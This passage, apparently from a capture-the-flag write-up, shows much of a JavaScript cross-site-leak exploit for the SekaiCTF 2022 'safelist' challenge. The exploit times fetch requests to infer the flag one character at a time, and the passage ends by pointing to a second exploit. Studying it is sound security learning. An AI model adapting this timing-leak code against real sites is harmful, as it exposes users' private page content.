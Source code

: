```html
        block(i, controller)
      }

      // Make the bot access the page with the posts
      window.open(
        "https://safelist.ctf.sekai.team/?" +
          Math.random().toString(36).slice(2),
        "pwn"
      )
      await new Promise((r) => setTimeout(r, 500))

      // start meassuring time to perform 5 requests
      let start = performance.now()
      await Promise.all([
        fetch("https://example.com", { mode: "no-cors" }),
        fetch("https://example.com", { mode: "no-cors" }),
        fetch("https://example.com", { mode: "no-cors" }),
        fetch("https://example.com", { mode: "no-cors" }),
        fetch("https://example.com", { mode: "no-cors" }),
      ])
      let delta = performance.now() - start
      document.title = delta
      controller.abort()

      log("test_" + c + "_" + i, delta)

      // Save time needed
      deltas.push(delta)
    }
    return deltas
  }

  // Check each char
  const pwn = async () => {
    // Try to leak each character
    for (let i = 0; i < alphabet.length; i++) {
      //Check the indicated char
      let deltas = await leak(alphabet[i])

      // Calculate mean time from requests to example.com
      let avg = deltas.reduce((a, v) => a + v, 0) / deltas.length

      // If greater than 250, the HTML code was injected (flag in index 0)
      if (avg > 250) {
        log("tests_pos_" + alphabet[i], deltas)
      }
      // Flag in the page
      else {
        log("tests_neg_" + alphabet[i], deltas)
      }
    }
  }

  window.onload = async () => {
    pwn()
  }
</script>
```
```
### Exploit 2

Same tactic but different code from [[https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/|https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/]]
```